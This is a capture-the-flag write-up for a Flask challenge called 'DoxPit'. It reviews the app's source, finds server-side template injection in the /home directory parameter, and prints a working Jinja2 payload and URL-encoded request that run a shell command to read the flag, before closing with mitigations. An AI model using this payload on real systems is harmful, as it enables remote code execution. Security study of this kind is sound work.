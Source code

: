 # DoxPit Exploitation

## Overview

### Flag Location

- The flag is a 10-character random string located in the root directory (`/`).

### Objective

Achieve Remote Code Execution (RCE) to access the flag.

---

## Installed Packages (`requirements.txt`)

```
bcrypt==4.1.2
Faker==25.2.0
Flask==3.0.3
Flask-Session==0.8.0
Flask-SQLAlchemy==3.1.1
```

---

## Code Analysis

### Main Application (`app.py`)

#### Key Components

1. **Blueprint Registration**
   
   - The app uses a `Blueprint` named `web`, imported from `routes.py`.
   - Static files are served from the `static` folder.

2. **Configuration**
   
   - Configured using the `Config` class in `config.py`.
   - Session storage type is set to `filesystem`.

3. **Error Handling**
   
   - A global error handler returns JSON responses with error details.

```python
from flask import Flask
from flask_session import Session
from application.blueprints.routes import web

app = Flask(__name__, static_url_path="/static", static_folder="static")
app.config.from_object("application.config.Config")
app.register_blueprint(web, url_prefix="/")

Session(app)

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500
```

---

### Configuration (`config.py`)

```python
from application.util.general import generate

class Config(object):
    SECRET_KEY = generate(50)
    SESSION_TYPE = "filesystem"

class ProductionConfig(Config):
    pass

class DevelopmentConfig(Config):
    DEBUG = False

class TestingConfig(Config):
    TESTING = False
```

- **SECRET_KEY**: A 50-character random string is generated.
- **SESSION_TYPE**: Configured to use the local filesystem.

---

### Routes (`routes.py`)

#### Key Functions and Features

1. **Authentication Middleware**
   - Validates session or token-based authentication.

```python
def auth_middleware(func):
    def check_user(*args, **kwargs):
        db_session = Database()

        if not session.get("loggedin"):
            if request.args.get("token") and db_session.check_token(request.args.get("token")):
                return func(*args, **kwargs)
            else:
                return redirect("/login")

        return func(*args, **kwargs)

    check_user.__name__ = func.__name__
    return check_user
```

2. **Key Routes**
   - `/login`: Validates user credentials.
   - `/register`: Registers a new user.
   - `/logout`: Clears session.
   - `/home`: Displays directory contents or scans a specified directory.

#### Directory Scanning Logic

```python
@web.route("/home", methods=["GET", "POST"])
@auth_middleware
def feed():
    directory = request.args.get("directory")

    if not directory:
        dirs = os.listdir(os.getcwd())
        return render_template("index.html", title="home", dirs=dirs)

    if any(char in directory for char in invalid_chars):
        return render_template("error.html", title="error", error="invalid directory"), 400

    try:
        with open("./application/templates/scan.html", "r") as file:
            template_content = file.read()
            results = scan_directory(directory)
            template_content = template_content.replace("{{ results.date }}", results["date"])
            template_content = template_content.replace("{{ results.scanned_directory }}", results["scanned_directory"])
            return render_template_string(template_content, results=results)

    except Exception as e:
        return render_template("error.html", title="error", error=e), 500
```

#### Observations

1. **Directory Traversal Protection**
   - Filters invalid characters in the `directory` parameter.
2. **Dynamic Template Rendering**
   - Uses `render_template_string` with user-supplied data, potentially vulnerable to Server-Side Template Injection (SSTI).

---

## Exploitation

### Step 1: Identify the Vulnerability

#### Server-Side Template Injection (SSTI)

- The `render_template_string` function processes user-controlled data without proper sanitization.
- An attacker can inject malicious Jinja2 template expressions to execute arbitrary code.

---

### Step 2: Exploit SSTI

#### Bypass Input Validation

To bypass character restrictions and inject payloads:

1. Use encoded characters (e.g., `%0D%0A` for CRLF).
2. Manipulate the `directory` parameter to include Jinja2 expressions.

#### Malicious Payload

- Inject the following payload to achieve RCE:

```bash
{{ "".__class__.__mro__[1].__subclasses__()[407]("/bin/sh -c 'cat /flag.txt'",shell=True,stdout=-1).communicate()[0].strip() }}
```

- Encoded URL example:

```bash
/home?directory=%7B%7B%20%22%22.__class__.__mro__[1].__subclasses__()[407](%22/bin/sh%20-c%20'cat%20/flag.txt'%22,shell=True,stdout=-1).communicate()[0].strip()%20%7D%7D
```

#### Response

The application returns the flag.

---

## Lessons Learned

### Key Takeaways

1. **Template Injection Risks**
   - Always sanitize inputs used in dynamic templates.
2. **Character Filtering**
   - Ensure comprehensive input validation to prevent encoding bypasses.
3. **Session Management**
   - Restrict session usage to trusted environments.

### Mitigation Strategies

1. Use libraries like `bleach` to sanitize inputs.
2. Avoid using `render_template_string` unless absolutely necessary.
3. Log and monitor unusual requests for early detection of attacks.
